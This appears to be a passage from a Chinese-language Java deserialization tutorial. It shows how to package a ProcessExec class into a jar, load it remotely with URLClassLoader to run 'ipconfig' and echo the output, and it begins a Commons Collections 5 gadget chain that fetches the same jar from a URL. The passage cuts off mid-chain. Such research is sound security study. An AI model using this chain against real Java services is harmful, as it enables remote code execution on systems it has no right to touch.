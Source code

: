 打jar包

```java
javac ProcessExec.java
jar -cvf p.jar ProcessExec.class
```

使用URLClassLoader加载jar获得回显

```java
package payload;

import java.lang.reflect.Constructor;
import java.net.URL;
import java.net.URLClassLoader;

public class URLClassloader {
    public static void main(String[] args) throws Exception {
        URL url = new URL("http://127.0.0.1/p.jar");
        URL[] urls = {url};
        URLClassLoader urlClassLoader = URLClassLoader.newInstance(urls);
        Constructor<?> processExec = urlClassLoader.loadClass("ProcessExec").getConstructor(String.class);
        processExec.newInstance("ipconfig");

    }
}
```
![image.png](https://y4er.com/img/uploads/20200516008124.png)

使用URLClassLoader的部份可以通过cc链反射去做

```java
package payload;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import javax.management.BadAttributeValueExpException;
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.net.URL;
import java.net.URLClassLoader;
import java.util.HashMap;
import java.util.Map;

class CommonsCollections5URLClassLoader {
    public static void main(String[] args) throws Exception {
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(URLClassLoader.class),
                // 获取构造方法
                new InvokerTransformer("getConstructor",
                        new Class[]{Class[].class},
                        new Object[]{new Class[]{java.net.URL[].class}}),
                // new实例并赋值url
                new InvokerTransformer("newInstance", new Class[]{Object[].class}, new Object[]{new Object[]{new URL[]{new URL("http://127.0.0.1/p.jar")}}}),
                // loadClass加载ProcessExec
```